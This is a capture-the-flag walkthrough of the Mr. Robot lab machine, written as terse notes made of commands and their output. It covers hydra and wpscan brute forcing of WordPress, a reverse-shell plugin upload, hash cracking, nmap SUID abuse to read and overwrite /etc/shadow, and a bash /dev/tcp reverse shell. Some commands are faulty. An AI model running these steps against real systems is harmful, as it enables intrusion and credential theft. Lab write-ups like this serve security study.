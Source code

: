 # Mr. Robot
_IP: 10.0.4.5_

The first thing I did was an nmap scan which you can find i this folder.
Basicly, it did not tell us much, but I found out that there is site running.

_The first thing I checked was:_
https://10.0.4.5/robots.txt

_This is what I've got:_
User-agent: *
fsocity.dic
key-1-of-3.txt

https://10.0.4.5/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9

Let's try to hack the hash:
john --wordlist=fsocity.dic --format=raw-md4 hash.txt
There is no answer for this hash in fsocity.dic.

log=user&pwd=pwd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1

curl -v --data 'log=user&pwd=pwd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1' --cookie 'wordpress_test_cookie=WP+Cookie+check' http://10.0.4.5/wp-login.php

hydra -L fsocity.dic -p admin 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:Invalid username" -V

[80][http-post-form] host: 10.0.4.5   login: Elliot   password: admin
found the right username. Now I am gonna look for a password

hydra -l Elliot -P fsocity.dic 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:The password you entered" -V

Looks like it does not work.

But we know that there is a user named elliot.

WordPress version 4.3.32

hydra -t64 -L fsocity.dic -p test 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:Invalid" -V

wpscan --url 10.0.4.5 --usernames Elliot --passwords fsocity.dic --password-attack wp-login

Do not forget to remove repeats
sort fsocity.dic | uniq > fsocity.dic 

To find how many lines left:
wc -l

Now we can do brute force again and hopefully we will find a password for the wordpress admin page
Username: Elliot
Password: ER28-0652

zip rev-plug.zip ./shell.php

upload the plugin, set up a nc listener, and activate the plugin. Now we have a reverse-shell.

We can see that there is a user named robot. Go to his folder and we will find:
key-2-of-3.txt
password.raw-md5

We do not have permission to read key-2-of-3.txt, but reading password.raw-md5 we will see:
robot:c3fcd3d76192e4007dfb496cca67e13b
Let's crack the hash.
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt robot_hash.txt
username: robot
password: abcdefghijklmnopqrstuvwxyz

use this command to upgrade the shell:
python -c 'import pty; pty.spawn("/bin/bash")'

Log in as robot.

And now we've got the second key.

we cannot run sudo. Let's look what we can do.

nmap -iL /etc/shadow

root:$6$9xQC1KOf$5cmONytt0VF/wi3Np3jZGRSVzpGj6sXxVHkyJLjV4edlBxTVmW91pcGwAViViSWcAS/.OF0iuvylU5IznY2Re.:16753:0:99999:7:::

WVLY0mgH0RtUI = mrcake

nmap --interactive
!sh

Then modify the password of root in /etc/shadow so that you can easily access it again.

root:WVLY0mgH0RtUI:16753:0:99999:7:::

LFILE=/etc/shadow
nmap -oG=$LFILE "root:WVLY0mgH0RtUI:16753:0:99999:7:::"

TF=$(sh)
echo 'os.execute("/bin/sh")' > $TF
./nmap --script=$TF

bash -i >& /dev/tcp/10.0.4.4/4444 0>&1
